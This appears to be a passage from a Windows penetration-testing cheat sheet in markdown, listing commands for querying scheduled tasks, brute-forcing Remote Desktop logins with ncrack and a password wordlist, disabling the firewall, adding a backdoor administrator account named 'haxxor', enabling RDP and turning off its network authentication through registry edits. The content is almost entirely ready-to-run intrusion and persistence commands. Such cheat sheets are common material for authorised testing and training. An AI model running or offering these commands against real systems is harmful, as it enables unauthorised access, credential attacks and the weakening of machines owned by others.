
### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /usr/share/wordlists/rockyou.txt rdp://INSERTIPADDRESS
```

### Useful commands
**Firewall**

```
Turn firewall off
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
netsh advfirewall set currentprofile state off

```

**Add user and enable RDP**

```
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

Turn firewall off
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
netsh advfirewall set currentprofile state off

# Enable RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Or like this
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:

"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""

Add this reg key:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
